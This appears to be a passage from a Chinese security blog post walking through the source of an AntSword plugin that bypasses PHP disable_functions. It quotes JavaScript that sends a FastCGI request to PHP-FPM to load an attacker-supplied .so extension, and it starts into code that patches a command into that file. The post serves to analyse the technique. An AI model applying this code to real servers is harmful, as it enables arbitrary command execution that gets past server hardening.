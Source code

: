   
伍-bypass disable_functions插件代码分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibuIZhT4Hqicn1AwTxKl6lQJhiauZibiaALNlYK3Inw1PQibXBUwpZ8ecvk40UmicHDxOuJwe4v5IicjiamyTQ1HvYcm9WQ/640?wx_fmt=png "")  
  
  
  
插件项目地址如下  
  
```
https://github.com/AntSword-Store/as_bypass_php_disable_functions
```  
  
  
先看一下  
core/php_fpm/index.js  
  
该js文件主要功能是和FPM通信，创建一个web server，和加载一个.so文件。我们来一个一个看这些功能对应的代码  
  
1，FPM功能  
  
```
// 导入 FastCGI 客户端，用于与 PHP-FPM 交互
const { FastCgiClient } = require('../../payload');
// PHP-FPM 连接配置
let fpm_host = '';
let fpm_port = -1;
formvals['fpm_addr'] = formvals['fpm_addr'].toLowerCase();
if (formvals['fpm_addr'].startsWith('unix:')) {
    fpm_host = formvals['fpm_addr'];
} else if (formvals['fpm_addr'].startsWith('/')) {
    fpm_host = `unix://${formvals['fpm_addr']}`
} else {
    fpm_host = formvals['fpm_addr'].split(':')[0] || '';
    fpm_port = parseInt(formvals['fpm_addr'].split(':')[1]) || 0;
}
// 构造 FastCGI 请求并发送到 PHP-FPM
var payload = `${FastCgiClient()};
$content="";
$client = new Client('${fpm_host}',${fpm_port});
$client->request(array(
    'PHP_VALUE' => 'extension=${p}',
    'PHP_ADMIN_VALUE' => 'extension=${p}',
    ),
    $content
);
sleep(1);
echo(1);
`;
```  
  
  
2.，生成.so文件并上传/core/base.js里  
  
生成ext的generateExt函数如下  
  
```
generateExt(cmd) {
    let self = this;
    let fileBuff = fs.readFileSync(self.ext_path);
    let start = 0,
      end = 0;
    switch (self.ext_name) {
      case 'ant_x86.so':
      case 'ant_x32.so':
        start = 275;
        end = 504;
        break;
      case 'ant_x64.so':
        // 434-665
        start = 434;
```
